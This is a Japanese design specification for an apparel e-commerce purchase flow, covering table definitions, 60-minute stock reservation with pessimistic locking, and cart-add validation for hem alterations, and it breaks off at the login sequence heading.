# GUオンラインストア 設計仕様書

## 目次

- 1. 本書の位置づけ
  - 1.1 前提
- 2. スコープ
  - 2.1 対象範囲
  - 2.2 対象外
  - 2.3 段階の設定
  - 2.4 ①の設計に織り込むもの
  - 2.5 決めた数字
- 3. データ設計
  - 3.1 テーブル一覧
  - 3.2 ER図
  - 3.3 テーブル定義
  - 3.4 排他制御
  - 3.5 未確定事項
- 4. 処理シーケンス
  - 4.0 構成要素
  - 4.1 カート投入
  - 4.2 ログイン
  - 4.3 配送方法・支払方法の選択
  - 4.4 注文確定
  - 4.5 未確定事項
- 5. セキュリティ設計
  - 5.1 本章の位置づけ
  - 5.2 全体構成
  - 5.3 認証
  - 5.4 認可
  - 5.5 セッションと Cookie
  - 5.6 CORS
  - 5.7 入力値の検証
  - 5.8 決済情報の取扱い
  - 5.9 ログの出力
  - 5.10 依存ライブラリの管理
  - 5.11 その他
  - 5.12 未確定事項
- 6. API 設計
  - 6.1 方針
  - 6.2 エンドポイント一覧
  - 6.3 共通仕様
  - 6.4 主要なエンドポイントの定義
  - 6.5 型定義の共有
  - 6.6 未確定事項
- 7. エラー処理と入力値の範囲
  - 7.1 入力値の範囲
  - 7.2 エラーの分類
  - 7.3 顧客への提示
  - 7.4 リトライ
  - 7.5 未確定事項
- 8. 構造
  - 8.1 ユースケース図
  - 8.2 アクティビティ図
  - 8.3 クラス図
  - 8.4 図の相互の関係
  - 8.5 未確定事項

## 1. 本書の位置づけ

本書は、別途作成した「GUオンラインストア 要件定義書」を受け、その一部について
実現方式を定めるものである。

| 文書 | 答える問い |
|---|---|
| 要件定義書 | システムは何を満たすべきか |
| 本書（設計仕様書） | それをどう実現するか |

要件定義書はGUオンラインストアの購買導線全体を対象とし、機能を絞らずに記述した。
機能間の依存関係を記述することを目的としたためである。

本書は対象を絞る。設計はクラス図・シーケンス図・ER図といった形式で表現するため、
対象が広いと図として成立しない。文書としての性質が異なることによる。

### 1.1 前提

- 本書は、要件定義書の記述内容を前提とする。要件の根拠および法令上の論点は
  要件定義書に記載しており、本書では再掲しない
- 基幹システム（商品マスタ、在庫、会員、店舗POS）は既存として扱う。本書が対象と
  するのはECサイト側の実装である
- 筆者はLv2（POSアプリ）を経ずにLv3を選択したため、POSアプリの実装資産を持たない。
  この点は 2.3 において扱う

## 2. スコープ

### 2.1 対象範囲

本書は、EC側の購入フローを対象とする。

```
商品詳細（SKU選択・すそ上げの選択）
  → カート投入（在庫の引当・60分）
  → ログイン
  → 配送方法・支払方法の選択
  → 注文確定（引当の確定・決済）
```

この経路を選んだ理由は、本書が重点を置く3領域が1本の線上に並ぶためである。

| 領域 | 発生箇所 | 要件定義書の該当箇所 |
|---|---|---|
| 在庫の引当・排他制御 | カート投入、注文確定 | 5.5.0、5.6.1.1 |
| 認証・認可 | ログイン以降の全操作 | 5.9.1、7.2 |
| 決済と表示義務 | すそ上げの選択、注文確定 | 5.6.3、5.6.4.1、5.6.6.1 |

### 2.2 対象外

以下は本書の対象としない。

| 対象 | 理由 |
|---|---|
| 商品の検索・絞り込み・レコメンド | 購入フローの前段であり、在庫の引当を伴わない |
| レビュー、お気に入り、再入荷通知 | 購入フローに含まれない |
| ギフトオプション | ネコポスの寸法判定に影響するが、本書が重点を置く3領域から外れる |
| 予約販売と注文の分割 | 注文の分割はステータス管理の多段化を伴うため ② に含める |
| 交換・返品 | 決済の取消を伴うため ② に含める |
| 注文確定後のキャンセル | 同上 |

**すそ上げについて**

すそ上げは①の対象に含める。理由は以下による。

- 加工方法とレングスの2段階の選択に依存関係がある（加工方法が「なし」の場合、
  レングスを選択できない）。選択肢の依存関係を扱う実例となる
- 加工品は交換・返品ができない。この条件を、選択の時点および注文確定前の双方で
  表示する必要がある（要件定義書 FR-564-05、FR-566-02）。本書が重点を置く
  「表示義務」の具体例として、これが中核となる

ただし、範囲は以下に限定する。

| 要素 | ①で扱う | 備考 |
|---|---|---|
| 加工方法の選択 | 扱う | 加工の種類は簡略化してよい |
| 加工方法とレングスの依存 | 扱う | |
| 加工料金の加算 | 扱う | 注文金額の計算に含まれる |
| 返品不可の表示 | 扱う | 選択時および注文確定前 |
| リードタイムの加算 | 扱わない | 配送日の算出は①の対象外 |
| ネコポスの可否への影響 | 扱わない | ギフトオプションを外すため、寸法判定自体を①の対象外とする |

### 2.3 段階の設定

本書は、実装まで到達させる範囲（①）と、余裕があれば取り組む範囲（②）を分けて
設定する。

| 段階 | 内容 | 位置づけ |
|---|---|---|
| ① | EC側の購入フロー | 設計・実装の対象 |
| ②-a | 店舗POS（バーコード読取・会計・在庫減算） | ②-b の前提となる |
| ②-b | ORDER & PICK（店舗在庫の引当） | ②-a を前提とする |

**②-a と ②-b の順序について**

ORDER & PICK（②-b）は、店舗スタッフが実物を確認して引当を確定する工程を含む
（要件定義書 5.7.2.2）。この工程を実行する画面は店舗POS側にあるため、②-a を
経ずに ②-b のみを実装することはできない。

したがって②に進む場合は ②-a → ②-b の順とする。

**POSアプリの資産がないことについて**

Lv2（POSアプリ）を経ずにLv3を選択したため、拡張の土台となる実装が存在しない。
要件定義書においても基幹システムは既存として扱い、連携インターフェースのみを
定義している（要件定義書 2.5.6、9章）。本書もこの前提を引き継ぐ。

②-a に進む場合は、既存の拡張ではなく新規実装となる。

### 2.4 ①の設計に織り込むもの

②に回した機能のうち、後から追加するとデータ構造の変更を伴うものは、①の段階で
考慮する。要件定義書 2.5.4 に記載した「後から取り戻せないもの」と同一の観点である。

| 項目 | 織り込む | 理由 |
|---|---|---|
| 在庫テーブルの粒度 | **する** | ①のみなら SKU 単位で足りるが、②では SKU × ロケーションが必要となる。後から列を追加すると、引当のロジック全体が書き換えとなる |
| 排他制御の設計 | **する** | ①では複数の顧客が同時にカート投入する場合を扱う。②-a では店舗POSも在庫を減算するため、在庫を触る主体が増える。主体が増えても成立する形とする |
| 決済の取消（返金） | しない | テーブルの追加により対応できる |
| 注文ステータスの多段階化 | しない | 同上。①では「確定」のみを扱う |

**在庫のロケーションについて**

①の範囲では、在庫はオンライン在庫のみを参照する。しかしテーブルの構造としては
SKU × ロケーション の粒度で保持し、①ではロケーションが「オンライン」の行のみを
使用する。

この設計により、②-a で店舗在庫を扱う際、テーブル定義の変更を伴わない。

**排他制御について**

①において在庫を減算する経路は、EC側の注文確定のみである。②-a を追加すると、
店舗POSでの会計が第2の経路となる。

同一のSKUに対する同時の更新要求を排他制御する仕組みは、要求元がECであるか
POSであるかによらず同一である。したがって①の段階で、要求元を限定しない形で
設計する。

### 2.5 決めた数字

本書において実装条件を規定する数値を、以下に列挙する。いずれも要件定義書において
観察または定義したものである。

| 数値 | 対象 | 要件定義書 |
|---|---|---|
| 60分 | カート投入時の在庫確保時間 | 5.6.1.1 |
| 税抜5,000円 | 送料無料の基準額 | 5.6.1.3 |
| ¥500 / ¥200 / 無料 | 指定住所受取り / ネコポス / 店舗受取りの送料 | 5.6.2.1 |
| ¥250 / ¥330 | 後払い / 代金引換えの手数料 | 5.6.3.1 |
| 300〜560円 | すそ上げ加工料（加工方法により異なる） | 5.6.4.1 |

各数値の判断の根拠（何と何を天秤にかけたか、動かすと何が悪くなるか、一緒に決まる
数字）は、要件定義書 2.5.5 に記載している。

なお、注文確定後のキャンセル可能時間（30分）は、決済の取消を伴うため ② に含める
（2.2 参照）。

## 3. データ設計

### 3.1 テーブル一覧

| # | テーブル | 役割 | 備考 |
|---|---|---|---|
| 1 | product | 商品（品番単位） | 価格は品番単位で保持（要件定義書 FR-531-14） |
| 2 | sku | 品番 × カラー × サイズ | 在庫と注文の最小単位 |
| 3 | location | 在庫ロケーション | ①ではオンラインのみ使用 |
| 4 | stock | SKU × ロケーションの在庫数 | |
| 5 | reservation | 在庫の引当 | カート投入時に発生、60分で解放 |
| 6 | member | 会員 | 論理削除 |
| 7 | cart | カート | 未ログインでも成立する |
| 8 | cart_item | カートの明細 | すそ上げの指定を含む |
| 9 | order | 注文 | |
| 10 | order_item | 注文明細 | 注文時点の値をコピー |

すそ上げの加工方法はマスタテーブルとせず、cart_item および order_item に直接保持
する。①で扱う加工方法が2種程度であり、マスタ化の利点が小さいためである。加工料は
アプリケーション側の定数として保持し、注文時点の値を order_item にコピーする。

### 3.2 ER図



### 3.3 テーブル定義

#### 3.3.1 product（商品）

| 列 | 型 | NULL | 説明 |
|---|---|---|---|
| product_id | varchar(20) | × | 商品番号（PK） |
| name | varchar(200) | × | 商品名 |
| gender | varchar(10) | × | WOMEN / MEN / KIDS |
| regular_price | int | × | 通常売価（税抜） |
| member_price | int | ○ | 会員価格（税抜）。設定がない場合はNULL |
| member_price_from | datetime | ○ | 会員価格の適用開始 |
| member_price_to | datetime | ○ | 会員価格の適用終了 |
| alterable | boolean | × | すそ上げ加工の可否 |
| original_length_mm | int | ○ | 元の丈（mm）。alterable = true の場合に必須 |
| created_at | datetime | × | |
| updated_at | datetime | × | |

original_length_mm は、指定された仕上がり丈が元の丈を超えないことの検証に用いる
（7.1.4、DS-711）。

価格を品番単位で保持する根拠は、同一品番内でサイズを変更しても価格が変動しない
という観察による（要件定義書 5.3.1.2）。

#### 3.3.2 sku（SKU）

| 列 | 型 | NULL | 説明 |
|---|---|---|---|
| sku_id | varchar(30) | × | PK |
| product_id | varchar(20) | × | FK → product |
| color_code | varchar(10) | × | カラーコード（例: 09） |
| color_name | varchar(50) | × | カラー名（例: BLACK） |
| size | varchar(10) | × | XS / S / M / L / XL / XXL / 3XL / ONE |
| created_at | datetime | × | |

品番 × カラー × サイズの全組み合わせが存在するとは限らない。存在する組み合わせ
のみを行として持つ（要件定義書 5.3.1.1 の留意点）。

#### 3.3.3 location（在庫ロケーション）

| 列 | 型 | NULL | 説明 |
|---|---|---|---|
| location_id | int | × | PK |
| type | varchar(10) | × | ONLINE / STORE |
| name | varchar(100) | × | 表示名 |
| address | varchar(200) | ○ | STORE のみ |
| latitude | decimal(9,6) | ○ | STORE のみ。距離順の表示に使用（②） |
| longitude | decimal(9,6) | ○ | 同上 |
| is_active | boolean | × | |

①ではロケーション1件（type = ONLINE）のみを使用する。②-a 以降で店舗の行を追加
する。

在庫数量と店舗の属性を別テーブルとした理由は、更新の頻度が大きく異なるためである。
在庫数量は分単位で変動するが、店舗の名称や住所は年単位でしか変わらない。同一の行に
保持すると、店舗情報の変更時に在庫の行を更新することになる。

#### 3.3.4 stock（在庫）

| 列 | 型 | NULL | 説明 |
|---|---|---|---|
| sku_id | varchar(30) | × | PK（複合）、FK → sku |
| location_id | int | × | PK（複合）、FK → location |
| quantity | int | × | 実在庫数 |
| updated_at | datetime | × | |

**引当済み数を列として持たない。** 引当は reservation テーブルに行として記録し、
引当可能数は以下により算出する。

```
引当可能数 = stock.quantity - (有効な reservation の数量合計)
```

列として持たない理由は、60分での自動解放を実現するためである。列で管理する場合、
「いつ引き当てたものか」が分からず、解放の対象を特定できない。

#### 3.3.5 reservation（在庫引当）

| 列 | 型 | NULL | 説明 |
|---|---|---|---|
| reservation_id | bigint | × | PK |
| sku_id | varchar(30) | × | FK → sku |
| location_id | int | × | FK → location |
| cart_item_id | bigint | ○ | FK → cart_item。カート起因の引当 |
| order_id | bigint | ○ | FK → order。注文確定後の引当 |
| quantity | int | × | |
| status | varchar(20) | × | ACTIVE / CONFIRMED / RELEASED |
| expires_at | datetime | ○ | ACTIVE のときのみ。投入時刻 + 60分 |
| created_at | datetime | × | |
| updated_at | datetime | × | |

**status の遷移**

```
ACTIVE ──(注文確定)──> CONFIRMED
   │
   └──(60分経過 / カートから削除)──> RELEASED
```

| status | 意味 | 引当可能数への影響 |
|---|---|---|
| ACTIVE | カート投入により確保中 | 減算する |
| CONFIRMED | 注文確定により確定 | 減算する（同時に stock.quantity を減算） |
| RELEASED | 解放済み | 影響しない |

CONFIRMED の行を削除せず残す設計とした。誰がいつ引き当てたかの記録を保持するため
である。二重に減算されないよう、引当可能数の算出において CONFIRMED も減算の対象と
する（3.4.3 参照）。

**要求元を限定しない設計**

本テーブルは、引当の要求元がEC側であるか店舗POSであるかを区別しない。②-a におい
て店舗POSが在庫を減算する場合も、同一の仕組みを用いる（2.4 参照）。

#### 3.3.6 member（会員）

| 列 | 型 | NULL | 説明 |
|---|---|---|---|
| member_id | bigint | × | PK |
| email | varchar(255) | × | ログインID |
| password_hash | varchar(255) | × | ハッシュ値を保持。平文は保持しない |
| name | varchar(100) | × | |
| postal_code | varchar(8) | ○ | |
| address | varchar(200) | ○ | |
| phone | varchar(20) | ○ | |
| is_withdrawn | boolean | × | 退会フラグ |
| withdrawn_at | datetime | ○ | |
| created_at | datetime | × | |
| updated_at | datetime | × | |

**退会時に行を削除しない。** order が member を参照しているため、削除すると取引
記録が参照先を失う。取引記録の保持は、契約の履行および法令上の保存義務に基づく
正当な利用目的による（要件定義書 FR-591-06）。

退会時に消去する項目と保持する項目の区別は、7章において扱う。

#### 3.3.7 cart（カート）

| 列 | 型 | NULL | 説明 |
|---|---|---|---|
| cart_id | bigint | × | PK |
| member_id | bigint | ○ | FK → member。未ログイン時はNULL |
| session_id | varchar(64) | ○ | 未ログイン時の識別子 |
| created_at | datetime | × | |
| updated_at | datetime | × | |

member_id と session_id のいずれか一方が必ず設定される。

未ログインでカートに投入した後にログインした場合、session_id で特定したカートに
member_id を設定する。既に当該会員のカートが存在する場合の統合方法は 4章において
扱う。

cart と cart_item を分離した理由は、ログイン時の統合処理を1行の更新で済ませるため
である。cart_item に直接 member_id を持たせる構成では、明細ごとに更新が必要となる。

#### 3.3.8 cart_item（カート明細）

| 列 | 型 | NULL | 説明 |
|---|---|---|---|
| cart_item_id | bigint | × | PK |
| cart_id | bigint | × | FK → cart |
| sku_id | varchar(30) | × | FK → sku |
| quantity | int | × | |
| alteration_type | varchar(30) | ○ | 加工方法。指定しない場合はNULL |
| alteration_length_mm | int | ○ | 仕上がり丈（mm）。alteration_type が設定されている場合は必須 |
| created_at | datetime | × | |

**alteration_type と alteration_length_mm の依存関係**

加工方法が指定されない限り、丈は指定できない（要件定義書 FR-564-02）。この制約は
アプリケーション側で検証する。

**丈をmm単位で保持する理由**

すそ上げの指定は0.5cm刻みである。小数を保持すると比較および計算において誤差を
生じうるため、mm単位の整数として保持する。金額を円単位の整数で保持するのと同一の
考え方による。

#### 3.3.9 order（注文）

| 列 | 型 | NULL | 説明 |
|---|---|---|---|
| order_id | bigint | × | PK |
| order_number | varchar(20) | × | 顧客に提示する注文番号 |
| member_id | bigint | × | FK → member |
| status | varchar(20) | × | ①では CONFIRMED のみ |
| delivery_method | varchar(20) | × | HOME / STORE_PICKUP / NEKOPOSU |
| placement_type | varchar(20) | ○ | 置き配指定。HOME のときのみ |
| payment_method | varchar(20) | × | CREDIT_CARD / PAYPAY / D_BARAI / DEFERRED / COD |
| payment_transaction_id | varchar(100) | ○ | 決済代行事業者が発行する取引ID |
| recipient_name | varchar(100) | × | 注文時点の値をコピー |
| recipient_postal_code | varchar(8) | × | 同上 |
| recipient_address | varchar(200) | × | 同上 |
| recipient_phone | varchar(20) | × | 同上 |
| subtotal | int | × | 商品合計（税抜） |
| alteration_fee | int | × | すそ上げ加工料の合計 |
| shipping_fee | int | × | 送料 |
| payment_fee | int | × | 支払手数料 |
| tax | int | × | 消費税 |
| total | int | × | 総額 |
| ordered_at | datetime | × | |

**カード番号その他の決済情報を保持しない。** 決済代行事業者が発行する取引IDのみを
保持する（要件定義書 SEC-70）。保持しないことにより、漏えいの対象が存在しない状態
を作る。

**配送先を会員テーブルから参照せず、注文にコピーする。** 会員の住所が変更された
場合も、過去の注文の配送先は変わってはならない。

**金額を項目ごとに保持する。** 総額のみを保持すると、内訳を事後に再現できない。
送料の基準額や手数料は変更されうるため、注文時点の内訳を記録する必要がある。

消費税は注文単位で保持する。衣料品は軽減税率の対象外であり、単一税率で足りる。

#### 3.3.10 order_item（注文明細）

| 列 | 型 | NULL | 説明 |
|---|---|---|---|
| order_item_id | bigint | × | PK |
| order_id | bigint | × | FK → order |
| sku_id | varchar(30) | × | FK → sku |
| product_name | varchar(200) | × | 注文時点の商品名をコピー |
| color_name | varchar(50) | × | 注文時点のカラー名をコピー |
| size | varchar(10) | × | 注文時点のサイズをコピー |
| unit_price | int | × | 注文時点の適用価格（税抜） |
| price_type | varchar(20) | × | REGULAR / MEMBER。いずれの価格が適用されたか |
| quantity | int | × | |
| alteration_type | varchar(30) | ○ | 注文時点の加工方法をコピー |
| alteration_length_mm | int | ○ | |
| alteration_fee | int | ○ | 注文時点の加工料をコピー |
| is_returnable | boolean | × | 返品可否。加工品は false |

**商品名・価格を注文時点の値でコピーする理由**

product を参照するのみとした場合、商品名や価格が変更されると、過去の注文の表示
内容が変わる。1,990円で購入した商品が、値下げ後に注文履歴を開くと1,490円で購入
したことになる。取引記録は不変であるべきであり、参照ではなくコピーとする。

**price_type を保持する理由**

会員価格が適用されたか通常売価が適用されたかを記録する。価格の変更履歴（要件定義書
FR-593-32）と照合することで、当該注文において表示された価格の妥当性を事後に説明
できる。

**is_returnable を保持する理由**

すそ上げ加工品は返品できない（要件定義書 5.6.4.1）。この判定を、注文時点の状態と
して明細に記録する。alteration_type の有無から都度判定することも可能だが、返品
条件が将来変更された場合、過去の注文に遡って適用されることを避ける。

### 3.4 排他制御

#### 3.4.1 方式

在庫の引当において、同一SKUに対する同時の要求を**悲観ロック**により制御する。

引当の処理は以下の順序で行う。

```
1. stock の該当行を排他ロックで取得（SELECT ... FOR UPDATE）
2. 有効な reservation の数量を合計する
3. 引当可能数 = stock.quantity - 合計 を算出
4. 要求数量が引当可能数以下であれば、reservation に行を追加
5. コミット（ロック解放）
```

ロックを取得している間、他のトランザクションは同一SKUの引当を実行できず、待機する。

#### 3.4.2 悲観ロックを選択した理由

| | 悲観ロック | 楽観ロック |
|---|---|---|
| 競合時の挙動 | 待機する | 失敗し、再試行を要する |
| 競合が頻発する場合 | 適する | 再試行が多発する |
| 追加の列 | 不要 | version 列が必要 |

在庫は競合が集中する対象である。値下げの実施時、新商品の発売時にアクセスが集中し
（要件定義書 6.3.2）、同一SKUへの同時要求が発生する。

楽観ロックでは、競合のたびに失敗と再試行が発生する。顧客から見ると「カートに入ら
ない」という事象になる。悲観ロックであれば待機の後に処理されるため、体験として
優れる。

ただしロックの保持時間が長いと、待機が積み上がる。引当の処理は上記の5ステップに
限定し、決済等の外部通信をロック内で行わない。

#### 3.4.3 引当可能数の算出

```
引当可能数 = stock.quantity
           - SUM(reservation.quantity WHERE status = 'ACTIVE' AND expires_at > NOW())
           - SUM(reservation.quantity WHERE status = 'CONFIRMED')
```

ACTIVE の算出において expires_at を条件に含める。解放処理（3.4.4）が遅延した場合
でも、期限切れの引当が引当可能数に影響しないようにするためである。

#### 3.4.4 引当の解放

expires_at を経過した ACTIVE の reservation を、定期的に RELEASED へ更新する。

| 項目 | 内容 |
|---|---|
| 実行間隔 | 【要検討】 |
| 対象 | status = ACTIVE かつ expires_at < 現在時刻 |
| 処理 | status を RELEASED に更新 |

解放処理が失敗した場合、在庫が引き当てられたまま残る（要件定義書 NFR-42）。処理の
実行結果を記録し、失敗時に再実行できる構成とする。

なお 3.4.3 のとおり引当可能数の算出時に expires_at を判定するため、解放処理の遅延
が販売機会の損失に直結することはない。解放処理は、reservation テーブルの肥大を抑え、
状態を正確に保つためのものである。

### 3.5 未確定事項

1. 引当の解放処理の実行間隔
2. 未ログインのカートと会員のカートが両方存在する場合の統合方法（4章で扱う）
3. session_id の生成方式および有効期間（5章で扱う）

## 4. 処理シーケンス

### 4.0 構成要素

本書では、以下の構成でシーケンスを記述する。

| 要素 | 役割 |
|---|---|
| Frontend | ブラウザ上で動作する画面。TypeScript |
| BFF | Frontend からの要求を受け、Backend へ中継する。認証情報の保持を担う |
| Backend | 業務処理。在庫の引当、注文の作成 |
| DB | データベース |
| PSP | 決済代行事業者（Payment Service Provider） |

BFF を置く理由は 5章（セキュリティ設計）において述べる。

本章では、設計上の判断に **DS-（Design Specification）** の識別子を付す。要件定義書
の FR-／NFR-／SEC- とは体系が異なる。要件定義書が「何を満たすべきか」を定めるのに
対し、本書の DS- は「それをどう実現するか」を定める。

### 4.1 カート投入

顧客が商品詳細でSKUとすそ上げを指定し、カートに投入する。この時点で在庫を60分間
引き当てる（要件定義書 FR-561-01、FR-561-02）。

#### 4.1.1 シーケンス



#### 4.1.2 表示用在庫と引当用在庫の乖離

商品詳細に表示される在庫状態は、表示用の在庫データによる（要件定義書 5.5.0）。
更新間隔の分だけ古いため、「在庫あり」と表示されていてもカート投入に失敗する場合が
ある。

この事象は設計上不可避である。表示のたびに引当用の照会を行うと、応答性能が確保
できない。

| ID | 設計事項 |
|---|---|
| DS-411 | 引当に失敗した場合、在庫が不足している旨を顧客に表示すること |
| DS-412 | 表示を最新の状態に更新し、選択可能なSKUを再提示すること |

顧客に対しては、失敗の理由を「他の顧客が購入した」等と推測して示さない。事実として
確認できるのは「現時点で引き当てられない」ことのみである。

#### 4.1.3 ロックの範囲

ロックを取得している間、同一SKUに対する他の引当要求は待機する。待機が積み上がる
ことを避けるため、ロック内で行う処理を以下に限定する。

| ロック内で行う | ロック内で行わない |
|---|---|
| 引当可能数の算出 | 入力値の検証 |
| cart_item の作成 | 商品情報の取得 |
| reservation の作成 | 外部サービスへの通信 |

| ID | 設計事項 |
|---|---|
| DS-413 | ロックを取得したトランザクション内で、外部サービスへの通信を行わない |

入力値の検証をロックの外に置く理由は、検証に失敗する要求がロックを取得する必要が
ないためである。

#### 4.1.4 すそ上げの検証

加工方法と丈には依存関係がある（要件定義書 FR-564-02）。以下を Backend で検証する。

| 条件 | 判定 |
|---|---|
| product.alterable = false かつ 加工方法が指定されている | エラー |
| 加工方法が未指定 かつ 丈が指定されている | エラー |
| 加工方法が指定 かつ 丈が未指定 | エラー |
| 丈が定義された範囲外 | エラー |

| ID | 設計事項 |
|---|---|
| DS-414 | 加工方法と丈の依存関係を Backend で検証する |
| DS-415 | Frontend における同一の検証を、Backend の検証の代替としない |

**DS-415 の理由**

Frontend の検証は顧客への即時のフィードバックを目的とし、Backend の検証は不正な
要求の排除を目的とする。Frontend を経由しない要求を送ることは可能であり、Backend
での検証を省略できない。目的が異なるため、いずれも必要である（5章参照）。

#### 4.1.5 未ログイン時の扱い

カート投入はログインを要件としない。未ログインの場合、cart は session_id により
識別される（3.3.7）。



session_id の生成方式および Cookie の属性は 5章において定める。

### 4.2 ログイン

未ログインでカートに投入した顧客が、購入手続きに進む際にログインする。

#### 4.2.1 シーケンス

